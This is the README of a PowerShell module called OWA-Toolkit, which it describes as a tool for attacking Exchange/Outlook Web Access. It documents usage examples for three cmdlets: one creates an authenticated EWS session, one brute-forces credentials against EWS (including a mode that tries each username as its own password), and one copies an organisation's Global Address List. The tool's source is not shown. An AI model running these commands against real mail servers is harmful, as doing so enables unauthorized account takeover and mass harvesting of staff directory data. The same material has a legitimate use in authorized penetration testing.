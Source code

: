 # OWA-Toolkit
Powershell module to assist in attacking Exchange/Outlook Web Access

NAME
    OTK-Init

SYNOPSIS
    This is a base cmd-let to produce an Exchange Web SErvice object

    -------------------------- EXAMPLE 1 --------------------------

    PS C:\>Creates an authencticated Exchange WEb Service object, can be used to intiate any methods exposed by the API


    $exchService = OTK-Init -Password "littlejohnny" -User "dbetty" -Domain "yourdomain.com" -ExchangeVersion 2007_SP1

NAME
    Brute-EWS

SYNOPSIS
    This is a multi-threaded powershell script to brute force credentials by testing credentials against an Exchange Web Service

    -------------------------- EXAMPLE 1 --------------------------

    PS C:\>Takes a list of userid and adds the domain, then attempted to authenticate with the password param


    Brute-EWS -TargetList .\userids.txt -ExchangeVersion 2007_SP1  -ewsPath "https://webmail.yourdomain.com/EWS/Exchange.asmx" -Password "omg123" -Domain "yourdomain.com"




    -------------------------- EXAMPLE 2 --------------------------

    PS C:\>Takes a list of userids or emails and authenticates against the excahnge web service with the userid as the password


    Brute-EWS -TargetList .\userids.txt -ExchangeVersion 2007_SP1  -ewsPath "https://webmail.yourdomain.com/EWS/Exchange.asmx" -UserAsPass Yes





NAME
    Steal-GAL

SYNOPSIS
    This is a  powershell script to enumerate and copy the Global Address List from an exposed Exchange Web Service

    -------------------------- EXAMPLE 1 --------------------------

    PS C:\>Initiates a connection to the EWS and pulls down the GAL


    Steal-GAL -Password "littlejohnny" -User "dbetty" -domain "yourdomain.com" -ExchangeVersion 2007_SP1




    -------------------------- EXAMPLE 2 --------------------------

    PS C:\>Accepts an exchService object from the pipeline then pulls down the GAL


    OTK-Init -Password "littlejohnny" -User "dbetty" -Domain "yourdomain.com" -ExchangeVersion 2007_SP1 | Steal-GAL






